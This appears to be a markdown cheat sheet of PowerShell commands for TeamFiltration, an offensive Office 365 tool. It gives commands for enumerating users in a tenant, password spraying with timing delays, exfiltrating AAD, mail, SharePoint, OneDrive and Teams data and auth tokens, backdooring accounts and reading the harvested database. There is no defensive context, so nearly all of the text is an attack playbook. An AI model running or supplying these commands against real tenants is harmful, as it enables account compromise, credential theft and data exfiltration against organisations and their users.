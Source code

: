 ## TeamFiltration
### Requires a NON MFA sacraificl O365 account with business basic license
### Enumeration with statisitcally generated usernames 
```powershell
.\TeamFiltration.exe --outpath adele --config sc200.json --enum --validate-teams --domain $tenant
```

### Enumeration w/ custom list
```powershell
.\TeamFiltration.exe --outpath adele --config sc200.json --usernames emails.txt --enum --validate-teams --domain $tenant
```

### Spray with generated list of months and seasons
```powershell
.\TeamFiltration.exe --outpath adele --config sc200.json --spray --sleep-min 120 --sleep-max 200
```

### Spray with custom list
```powershell
.\TeamFiltration.exe --outpath adele --config sc200.json --spray --passwords $passwords --sleep-min 120 --sleep-max 200
```

### Exfil AAD, all=graph,owa,sharepoint,onedrive,teams
```powershell
.\TeamFiltration.exe --outpath adele --config sc200.json --exfil --aad
.\TeamFiltration.exe --outpath adele --config sc200.json --exfil --all 
```

### Exfil auth tokens
```powershell
.\TeamFiltration.exe --outpath adele --config sc200.json --exfil --tokens 
```

### Override creds to exfil
```powershell
.\teamfiltration.exe --outpath \adele --exfil --all --username $user --password $password
```

### backdoor
```powershell
.\teamfiltration.exe --outpath adele --config sc200.json --backdoor
```

### Access Database
```powershell
.\teamfiltration.exe --outpath adele --config sc200.json --database
```
